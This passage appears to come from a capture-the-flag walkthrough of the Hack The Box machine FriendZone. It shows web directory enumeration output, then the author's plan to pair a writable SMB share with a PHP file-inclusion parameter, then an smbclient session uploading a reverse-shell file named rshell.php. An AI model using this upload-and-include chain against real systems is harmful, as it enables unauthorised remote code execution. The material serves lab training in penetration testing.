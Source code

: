 ```bash
===============================================================
/images               (Status: 301) [Size: 349] [--> https://administrator1.friendzone.red/images/]
/login.php            (Status: 200) [Size: 7]
/dashboard.php        (Status: 200) [Size: 101]
/timestamp.php        (Status: 200) [Size: 36]
```

`/timestamp.php` is found additionally. I think this has to do with the timestamp parameter we used before.

![](attachments/friendzone_10.png)

As we expected, it returns the sentence included in previous page.



# Shell as `www-data`

Let's organize what we've found.
- `/development` share is writeable and located in `/etc/development` on the target system.
- administrator1.friendzone.red takes `timestamp` parameter to load php file with its name.
What if we can upload our payload php file on `/development` share and access it using `timestamp` parameter?

First, let's upload php reverse shell code on the share.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient \\\\10.10.10.123\\Development
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jan 11 07:23:19 2025
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  test.txt                            A       15  Sat Jan 11 06:18:53 2025

3545824 blocks of size 1024. 1521220 blocks available
smb: \> put rshell.php
putting file rshell.php as \rshell.php (13.6 kb/s) (average 13.6 kb/s)
smb: \> ls
  .                                   D        0  Sat Jan 11 07:34:58 2025
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  rshell.php                          A     5493  Sat Jan 11 07:34:59 2025
  test.txt                            A       15  Sat Jan 11 06:18:53 2025

3545824 blocks of size 1024. 1520924 blocks available
```
